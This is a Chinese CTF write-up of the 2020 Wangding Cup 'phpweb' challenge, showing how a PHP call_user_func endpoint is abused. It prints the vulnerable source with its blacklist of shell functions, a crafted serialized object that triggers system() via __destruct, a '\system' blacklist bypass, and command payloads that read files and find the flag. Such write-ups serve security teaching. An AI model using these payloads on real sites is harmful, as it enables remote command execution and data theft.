



# 网鼎杯2020朱雀组phpweb1

1、首先一打开网页和hackbar是这样的


2、最上面一行报错让我们用date_default_timezone_set()函数改时区，然后查看源码发现这里有个post方法提交的隐藏表单



传参分别为func和date。

3、我们用hackbar改post请求的传值

```
默认为func=date&p=Y-m-d+h%3Ai%3As+a

我们改为func=123&p=123
```

报错了，显示call_user_func无法找到名叫123的方法

4、这里就很明显了，这里post传入的func即为要调用的函数，而p即为函数的参数，然后会将其当做调用函数call_user_func的参数。

我试了下直接传入`func=system&p=ls`去命令执行，发现回显Hacker，说明被过滤了。

这里可以用highlight_file、file_get_contents、show_source读取index.php文件

```
func=file_get_contents&p=index.php
```

成功回显出index.php的代码



```
<?php
$disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
function gettime($func, $p) {
    $result = call_user_func($func, $p);
    $a= gettype($result);
    if ($a == "string") {
        return $result;
    } else {return "";}
}
class Test {
    var $p = "Y-m-d h:i:s a";
    var $func = "date";
    function __destruct() {
        if ($this->func != "") {
            echo gettime($this->func, $this->p);
        }
    }
}
$func = $_REQUEST["func"];
$p = $_REQUEST["p"];

if ($func != null) {
    $func = strtolower($func);
    if (!in_array($func,$disable_fun)) {
        echo gettime($func, $p);
    }else {
        die("Hacker...");
    }
}
?>
```

5、我们经过代码审计之后发现过滤了很多函数，但是我们注意到这里有个__destruct魔术方法，该方法会在反序列化后被执行

```
   function __destruct() {
        if ($this->func != "") {
            echo gettime($this->func, $this->p);
        }
    }
```

触发该魔术方法后也能执行gettime方法中的call_user_func，并且这里只会对我们传入的函数进行过滤，而参数没有任何过滤。我们传入unserialize函数名，就能绕过黑名单，并且成功执行反序列化，然后就能触发__destruct魔术方法了。

所以先构造序列化字符串

**这里我们的目标是先执行system('ls /')查看下根目录下文件**

```
<?php
class Test {
var $p = "ls /";
var $func = "system";
}

echo serialize(new Test());

#输出
O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
```

然后构造payload：

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
```

post提交

成功查看到根目录下文件



6、但是这里文件太多了，这么多文件我们很难找到flag，所以这里使用反引号内联执行加find命令，将find出来的结果赋值给cat执行

```
最终payoad
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:24:"cat `find / -name flag*`";s:4:"func";s:6:"system";}
```

然后就得到flag了。

## 其他解法

有点离谱，system不是被过滤了吗，但是我们可以直接将system改为**\system**

就匹配不到了，但是可以直接执行命，可惜没 想到这一步

```
func=\system&p=cat `find / -name flag*`
```

## linux find -name模糊查询文件

对于在Linux中使用`find`命令进行模糊查询文件，有几种不同的实现方法：

1. 

   使用通配符（wildcard）进行模糊匹配：

   ```shell
   find /path/to/directory -name "*pattern*"
   ```

   该命令将在指定路径下递归查找文件名包含指定模式的文件。`*`表示任意字符，可以出现在模式的任意位置。

2. 

   使用正则表达式进行模糊匹配：

   ```shell
   find /path/to/directory -regex ".*pattern.*"
   ```

   该命令将在指定路径下递归查找文件名匹配指定正则表达式的文件。`.*`表示任意字符的任意次数，可以出现在模式的任意位置。

3. 

   结合`grep`命令进行模糊匹配：

   ```shell
   find /path/to/directory -type f | grep "pattern"
   ```

   该命令将在指定路径下递归查找文件，并使用`grep`命令对结果进行过滤，只返回文件名中包含指定模式的文件。

请注意，在使用以上任何一种方法时，需要将`/path/to/directory`替换为你要搜索的实际目录路径，将`pattern`替换为你要模糊匹配的实际模式。


而且可以配合cat来进行内联执行，将find搜索到的文件名都显示其内容

例如：

```
cat `find / -name flag*`
```

